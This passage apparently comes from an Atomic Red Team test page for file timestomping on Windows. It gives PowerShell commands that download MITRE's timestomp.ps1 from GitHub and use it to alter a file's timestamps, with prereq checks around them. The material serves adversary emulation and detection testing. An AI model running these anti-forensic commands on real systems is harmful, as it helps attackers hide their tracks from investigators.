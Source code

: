 ##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_path}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Path "#{file_path}" -Force | Out-Null
Set-Content "#{file_path}" -Value "T1551.006 Timestomp" -Force | Out-Null
```

<br/>
<br/>

## Atomic Test #8 - Windows - Timestomp a File

Timestomp kxwn.lock.

Successful execution will include the placement of kxwn.lock in #{file_path} and execution of timestomp.ps1 to modify the time of the .lock file.

[Mitre ATT&CK Evals](https://github.com/mitre-attack/attack-arsenal/blob/master/adversary_emulation/APT29/CALDERA_DIY/evals/data/abilities/defensive-evasion/4a2ad84e-a93a-4b2e-b1f0-c354d6a41278.yml)

**Supported Platforms:** Windows

**auto_generated_guid:** d7512c33-3a75-4806-9893-69abc3ccdd43

#### Inputs:

| Name      | Description                     | Type   | Default Value                                   |
| --------- | ------------------------------- | ------ | ----------------------------------------------- |
| file_path | File path for timestomp payload | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads |

#### Attack Commands: Run with `powershell`!

```powershell
import-module "#{file_path}\timestomp.ps1"
timestomp -dest "#{file_path}\kxwn.lock"
```

#### Dependencies: Run with `powershell`!

##### Description: timestomp.ps1 must be present in #{file_path}.

##### Check Prereq Commands:

```powershell
if (Test-Path "#{file_path}\timestomp.ps1") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/mitre-attack/attack-arsenal/bc0ba1d88d026396939b6816de608cb279bfd489/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/timestomp.ps1" -OutFile "#{file_path}\timestomp.ps1"
```
